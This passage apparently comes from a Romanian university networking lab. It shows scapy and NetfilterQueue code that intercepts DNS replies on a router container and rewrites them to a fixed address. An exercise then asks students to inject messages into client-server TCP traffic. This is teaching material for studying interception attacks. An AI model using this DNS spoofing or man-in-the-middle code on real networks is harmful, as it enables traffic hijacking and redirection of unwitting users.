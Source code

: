 ```python

def alter_packet(packet):
    # obtinem qname sau Question Name
    qname = packet[DNSQR].qname
    # construim un nou raspuns cu reply data
    packet[DNS].an = DNSRR(rrname=qname, rdata='1.1.1.1')
    # answer count = 1
    packet[DNS].ancount = 1
    # am modificat pachetul si stergem campurile len si checksum
    # in mod normal ar trebui recalculate, dar scapy face asta automat
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # returnam pachetul modificat
    return packet
```

##### 3. Executăm coada Netfilter cu funcția definită anterior
```python
queue = NFQ()
try:
    os.system("iptables -I FORWARD -j NFQUEUE --queue-num 10")
    # bind trebuie să folosească aceiași coadă ca cea definită în iptables
    queue.bind(10, detect_and_alter_packet)
    queue.run()
except KeyboardInterrupt:
    os.system("iptables --flush")
    queue.unbind()
```

Testați din containerul `server`: `docker-compose exec server bash -c "ping fmi.unibuc.ro"`

<a name="exercitii"></a> 
## Exerciții
1. Urmăriți mai multe exemple din scapy [aici](https://scapy.readthedocs.io/en/latest/usage.html#simple-one-liners)
2. Utilizați NetfilterQueue în containerul `router` pentru a intercepta pachete TCP dintre client și server și pentru a injecta mesaje suplimentare în comunicare.
